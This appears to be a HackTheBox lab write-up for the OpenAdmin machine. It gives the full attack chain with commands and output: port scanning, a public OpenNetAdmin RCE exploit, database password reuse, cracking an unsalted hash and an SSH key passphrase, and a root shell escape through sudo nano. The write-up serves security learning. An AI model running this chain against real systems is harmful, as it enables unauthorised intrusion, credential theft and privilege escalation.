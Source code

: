```yaml
---
tags:
  - htb
revisit: false
---
```

# HackTheBox: [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

> [!tip]- Spoiler Summary
> This Linux server is running a vulnerable version of [OpenNetAdmin](https://opennetadmin.com/). Password re-use allows pivoting from the web user to another admin user. An web server bound to `localhost` allows access to another admin user's private key. PE is then possible via Sudo, granting root access to `nano` which is [trivially escapable](https://gtfobins.github.io/gtfobins/nano/).

## Services

### TCP

First, a TCP [port scan with `nmap`](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Mon Jul  1 11:54:57 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN nmap_tcp t
Increasing send delay for 10.10.10.171 from 0 to 5 due to 2915 out of 7287 dropped probes since last increase.
Increasing send delay for 10.10.10.171 from 5 to 10 due to 3089 out of 7721 dropped probes since last increase.
Warning: 10.10.10.171 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.10.171)
Host is up (0.39s latency).
Not shown: 55237 closed tcp ports (reset), 10296 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

Service scan with [`whatweb`](whatweb-20240610.md):

```console
http://t [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Title[Apache2 Ubuntu Default Page: It works]
```

Fuzzing uncovered `/music` and that led to `/ona`:

![](_/htb-openadmin-20240701-1.png)

## RCE

Here is how I achieved remote code execution on the target system.

The OpenNetAdmin service running on the target has an RCE vulnerability. I used [this PoC](https://github.com/amriunix/ona-rce):

```console
$ python3 ./ona-rce.py check http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!

$ python3 ./ona-rce.py exploit http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## PE

Here's how I was able to escalate privileges for full control of the system.

The file `local/config/database_settings.inc.php` has database credentials:

```php
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
```

I tried reusing that password for `root`, `joanna`, which didn't work, but it worked for user `jimmy`:

```console
www-data@openadmin:/opt/ona/www$ su - jimmy
Password:
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

There's an interesting PHP file owned by group `internal`:

```console
jimmy@openadmin:~$ find / -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Here's the vhost config:

```console
jimmy@openadmin:/etc/apache2$ cat sites-enabled/internal.conf
Listen 127.0.0.1:52846
<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal
<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

I used [SSH port fowarding](pivoting-with-ssh-port-forwarding-20240627.md) to access the internal-facing web server boudn to port 52846:

![](_/htb-openadmin-20240701-3.png)

That login page comes from `/var/www/internal/index.php`, and the relevant code snippet is below:

```php
<?php
            $msg = '';
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
```

That's an unsalted hash, which [CrackStation](https://crackstation.net/) has an entry for:

![](_/htb-openadmin-20240701-2.png)

The credentials `jimmy:Revealed` give us the private key for `joanna`:

![](_/htb-openadmin-20240701-4.png)

There's a passphrase for the private key, and the previous "ninja" password doesn't work. So, I use `john` to crack it:

```console
$ ssh2john ./id_rsa  > john.id_rsa

$ john -wordlist=~/rockyou.txt ./john.id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (./id_rsa)
1g 0:00:00:03 DONE (2024-07-01 12:28) 0.2985g/s 2858Kp/s 2858Kc/s 2858KC/s bloodninjas..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And that password grants access to the `joanna` account and user flag:

```console
$ ssh -i id_rsa joanna@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
...
Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

joanna@openadmin:~$ ls -l user.txt
-r-------- 1 joanna joanna 33 Jul  1 17:53 user.txt
```

To elevate privileges, there's a path via Sudo:

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$ ls -l /opt/priv
-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv
joanna@openadmin:~$ file /opt/priv
/opt/priv: empty
joanna@openadmin:~$ ls -ld /opt
drwxr-xr-x 3 root root 4096 Jan  4  2020 /opt
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

From inside the `nano` editor, it's possible to execute a command via `^R^X` and `reset; sh 1>&0 2>&0`, which gives an interactive `root` shell.
